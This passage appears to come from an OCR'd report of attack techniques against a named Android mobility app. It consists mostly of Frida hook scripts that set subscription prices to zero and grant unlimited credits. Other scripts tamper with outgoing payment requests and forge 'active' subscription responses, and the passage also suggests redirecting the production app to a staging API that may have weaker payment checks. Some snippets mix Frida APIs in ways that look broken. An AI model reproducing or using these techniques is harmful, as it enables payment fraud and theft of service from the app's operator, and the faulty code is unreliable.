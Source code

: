 ### Technique 3: Price Manipulation
```javascript
// Set all prices to zero
Java.perform(function() {
    var PriceModel = Java.use("p610s4.C10452g");

    PriceModel.$init.implementation = function(price, intervalType, intervalCount, freeCredits) {
        // Override price to zero
        return this.$init(0, intervalType, intervalCount, 999999);
    };
});
```

---

## 🔄 **API MANIPULATION OPPORTUNITIES**

### 1. **Environment Switching**
- Force production app to use staging APIs
- Staging may have relaxed payment validation
- Switch base URL: `https://staging.api.knotcity.io/`

### 2. **Request Tampering**
```javascript
// Modify payment requests before sending
Interceptor.attach(OkHttp3.RequestBody.create.overload('java.lang.String', 'okhttp3.MediaType').implementation, {
    onEnter: function(args) {
        if (args[0].includes("payment")) {
            // Modify payment amount to zero
            args[0] = args[0].replace(/"price":[\d.]+/, '"price":0');
        }
    }
});
```

### 3. **Response Modification**
```javascript
// Modify API responses to show active subscriptions
Interceptor.attach(OkHttp3.ResponseBody.string, {
    onReturn: function(retval) {
        var response = JSON.parse(retval);
        if (response.state) {
            response.state = "active";
            response.nextRenewDate = new Date(Date.now() + 31536000000);
        }
        return JSON.stringify(response);
    }
});
```

---